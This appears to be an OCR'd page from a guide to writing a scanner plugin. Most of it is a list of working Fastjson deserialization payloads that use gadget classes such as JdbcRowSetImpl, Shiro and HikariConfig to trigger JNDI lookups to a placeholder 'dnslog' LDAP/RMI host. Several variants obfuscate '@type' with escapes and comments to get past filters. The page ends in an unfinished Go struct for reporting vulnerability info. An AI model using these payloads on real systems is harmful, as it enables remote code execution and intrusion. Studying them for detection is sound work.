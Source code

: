        {"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://dnslog"}
       
       {"@type":"org.apache.shiro.realm.jndi.JndiRealmFactory",
       "jndiNames":["ldap://dnslog"], "Realms":[""]}
       
       {"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://dnslog"}
       
       {"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","healthCheckRegistry":"ldap://dnslog"}
       
       {"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://dnslog"}
       
       {"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties":
       {"@type":"java.util.Properties","UserTransaction":"ldap://dnslog"}}
       
       {"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup",
       "jndiNames":["ldap://dnslog"], "tm": {"$ref":"$.tm"}}
       
       {"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://dnslog","instance":{"$ref":"$.instance"}}
       
       {"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://dnslog"}
       
       {"@type":"org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://dnslog"}
       
       {"@type":"com.caucho.config.types.ResourceRef","lookupName":
       "ldap://dnslog", "value": {"$ref":"$.value"}}
       
       {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
       
       {
       "@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
       
       {/*s6*/"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
       
       {\n"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
       
       {"@type"\b:"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
       
       {"\u0040\u0074\u0079\u0070\u0065":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}
       
       {"\x40\x74\x79\x70\x65":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://dnslog","autoCommit":true}

请求方式为POST，最多再加几个headers，这里面还没算上加上bypass的

## 1.showinfo

编写showinfo输出漏洞信息

> // VulnInfo contains the Vulnerability information about
> CVE-2021-41277
> 
> type VulnInfo struct {
> 
> Name string
> 
> VulID string
> 
> Version string
> 
> Author string
> 
> VulDate string
> 
> References []string
> 
> AppName string
> 
> AppPowerLink string